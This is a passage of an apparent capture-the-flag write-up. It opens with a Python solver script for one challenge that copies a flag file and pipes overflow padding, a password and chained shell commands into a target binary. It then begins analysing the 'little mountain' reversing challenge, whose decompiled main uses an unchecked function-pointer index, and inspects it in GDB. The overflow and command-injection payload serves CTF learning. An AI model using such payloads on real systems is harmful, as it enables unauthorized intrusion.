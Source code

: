 
```python
from subprocess import PIPE, Popen, run
import os
import shutil

# execute while working directory is /room0
# echo $this | base64 -d | gunzip > /tmp/worm.py; cd /room0; python3 /tmp/worm.py

if os.path.exists("flag.txt"):
	shutil.copy("flag.txt", "/tmp/flag.txt")

payload0 = b"A" * 32 + b"p4ssw0rd\n" + b"cd room0;\n" + b"python3 /tmp/worm.py;\n" + b""
p = run(["./key"], capture_output=True, input=payload0)
print(p.stdout)
print(p.stderr)

payload1 = b"A" * 32 + b"p4ssw0rd\n" + b"cd room1;\n" + b"python3 /tmp/worm.py;\n" + b""
p = run(["./key"], capture_output=True, input=payload1)
print(p.stdout)
print(p.stderr)
```

# little mountain (rev)

```text
Climb this mountain and score some points :)
```

[little](https://github.com/b01lers/circle-city-ctf-2021/raw/main/rev/little_mountain/dist/little)

```c
void main(void)

{
  int local_c;
  
  setabuf();
  do {
    puts("Option 0: Guess the number");
    puts("Option 1: Change the number");
    puts("Option 2: Exit");
    __isoc99_scanf(&DAT_0049e0d7,&local_c);
    (**(code **)(funcs + (long)local_c * 8))();
  } while( true );
}
```

My immediate thought when seeing this is that we have an unchecked function pointer array and that's sus as fuck. This isn't pwn but it still got me thinking. Let's open it up in GDB and see what funcs[3] is. 

```text
gef➤  bt
#0  0x0000000000401cf5 in d ()
#1  0x0000000000401ed7 in main ()
```
